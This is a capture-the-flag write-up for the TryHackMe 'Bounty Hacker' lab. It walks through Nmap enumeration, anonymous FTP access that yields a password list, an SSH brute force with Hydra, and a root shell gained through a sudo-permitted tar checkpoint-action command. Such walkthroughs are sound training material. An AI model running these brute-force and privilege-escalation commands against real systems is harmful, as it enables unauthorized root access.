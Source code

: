 # THM - Bounty Hacker

#### Ip: 10.10.121.167
#### Name: Bounty Hacker
#### Difficulty: Easy

----------------------------------------------------------------------

![bounty.jpeg](../assets/bounty_hacker_assets/bounty.jpeg)

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. 

```text
┌──(ryan㉿kali)-[~/THM/Bounty_Hacker]
└─$ sudo nmap -p-  --min-rate 10000 10.10.121.167        
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-06 09:28 CDT
Nmap scan report for 10.10.121.167
Host is up (0.27s latency).
Not shown: 64168 filtered tcp ports (no-response), 1364 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 26.83 seconds
```

Next I'll also use the `sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/THM/Bounty_Hacker]
└─$ sudo nmap -sC -sV 10.10.121.167 -p 21,22,80                                                     
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-06 09:31 CDT
Nmap scan report for 10.10.121.167
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.2.6.181
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dcf8dfa7a6006d18b0702ba5aaa6143e (RSA)
|   256 ecc0f2d91e6f487d389ae3bb08c40cc9 (ECDSA)
|_  256 a41a15a5d4b1cf8f16503a7dd0d813c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.49 seconds
```

Heading to the site we find a static page:

![site.png](../assets/bounty_hacker_assets/site.png)

Looking over our Nmap results we see that FTP has anonymous access enabled- lets check that out:

```text
┌──(ryan㉿kali)-[~/THM/Bounty_Hacker]
└─$ ftp 10.10.121.167  
Connected to 10.10.121.167.
220 (vsFTPd 3.0.3)
Name (10.10.121.167:ryan): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||38071|)
ftp: Can't connect to `10.10.121.167:38071': Connection timed out
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
ftp> get locks.txt
local: locks.txt remote: locks.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
100% |********************************************************************************|   418        3.39 KiB/s    00:00 ETA
226 Transfer complete.
418 bytes received in 00:00 (1.27 KiB/s)
ftp> get task.txt
local: task.txt remote: task.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
100% |********************************************************************************|    68      111.98 KiB/s    00:00 ETA
226 Transfer complete.
68 bytes received in 00:00 (0.33 KiB/s)
ftp> bye
221 Goodbye.
```
Lets take a look at these files:

```text
┌──(ryan㉿kali)-[~/THM/Bounty_Hacker]
└─$ cat task.txt 
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
                                                                                                                             
┌──(ryan㉿kali)-[~/THM/Bounty_Hacker]
└─$ cat locks.txt             
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```

Cool, we now have a potential username as well as what appears to be a password list. Lets try this against SSH using Hydra:

### Exploitation

![hydra.png](../assets/bounty_hacker_assets/hydra.png)

Cool, Hydra found a valid password. Lets login to SSH.

```text
┌──(ryan㉿kali)-[~/THM/Bounty_Hacker]
└─$ ssh lin@10.10.121.167                      
The authenticity of host '10.10.121.167 (10.10.121.167)' can't be established.
ED25519 key fingerprint is SHA256:Y140oz+ukdhfyG8/c5KvqKdvm+Kl+gLSvokSys7SgPU.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.121.167' (ED25519) to the list of known hosts.
lin@10.10.121.167's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ hostname
bountyhacker
```

We can now grab the user.txt flag:

![user_flag.png](../assets/bounty_hacker_assets/user_flag.png)

### Privilege Escalation

Running `sudo -l` to see what our user can run with elevated permissions we see we can run tar:

```text
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

Lets head over to https://gtfobins.github.io/gtfobins/tar/#sudo for the commands we'll need to exploit this:

![tar.png](../assets/bounty_hacker_assets/tar.png)

```text
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
```
Nice, that worked. Lets grab the final root.txt flag:

![root_flag.png](../assets/bounty_hacker_assets/root_flag.png)

Thanks for following along!

-Ryan

----------------------------------------
